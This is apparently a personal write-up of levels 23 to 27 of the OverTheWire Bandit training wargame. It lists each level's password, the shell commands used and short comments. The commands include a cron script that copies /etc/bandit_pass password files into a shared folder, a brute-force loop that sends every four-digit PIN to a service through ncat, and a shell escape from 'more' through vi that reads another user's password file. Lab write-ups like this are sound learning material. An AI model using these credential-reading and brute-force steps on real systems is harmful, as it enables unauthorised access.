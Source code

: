 ### bandit23: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```
wrote a /tmp/tmp.NwNxV2gym6/rik.sh script 
 $ cp /etc/bandit_pass/bandit* /tmp/tmp.NwNxV2gym6
 $ chmod 777 /tmp/tmp.NwNxV2gym6/*
$ cp rik.sh /var/spool/bandit24/
```
Kind of cool that you're writing a script that'll get run as another user.
So you copy out all of the password files available to that user and 
consume them from a shared location.

### bandit24: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 
```
$ for f in `seq -w 1000 9999`; do sleep 0.5; echo "trying $f" >&2; echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $f; done | ncat -o output localhost 30002
```
Netcat really gave me some headaches here.  For whatever reason, piping output straight
to nc/netcat, expecting netcat to send it was not working properly.  Turns out netcat 
is pretty fragmented and I think I had an old version, or my terminal was screwed up -
something was not working as intended.

Then there was some timing issues where it seemed like the service couldn't read output 
fast enough.  I thought I could put that `seq` output into a file and pipe it straight 
to netcat and it would read and write as it got lines, but that sure didn't work out.
On another day I'd write a python program to have good control over the socket, but I felt like the 
shell _really_ should be able to do this.

### bandit25: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
$ grep bandit26 /etc/passwd
$ /usr/bin/showtext
$ ssh -i 
the weakness is in /bin/more.  if you shrink your terminal, more will be semi-interactive
hit v to get into vi
:r /etc/bandit_pass/bandit26
:set shell=/bin/bash
```

I had to google this one. This is kind of like the ps aux thing where it chops off input
to your terminal size.  So we couldn't grep for particular commands running if the terminal
was too small.  Bunch of horseshit, really, and unix should have fixed this a long time ago.

Anyway, yeah, I guess you can hit v within more and get it to go to vim. That's new.

### bandit26: 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```
$ ssh -i bandit26.sshkey localhost -p 22 -l bandit26
$ ./bandit27-do cat /etc/bandit_pass/bandit27
```

### bandit27: 3ba3118a22e93127a4ed485be72ef5ea
```
$ git clone ssh://bandit27-git@localhost/home/bandit27-git/repo
$ cat repo/README
```
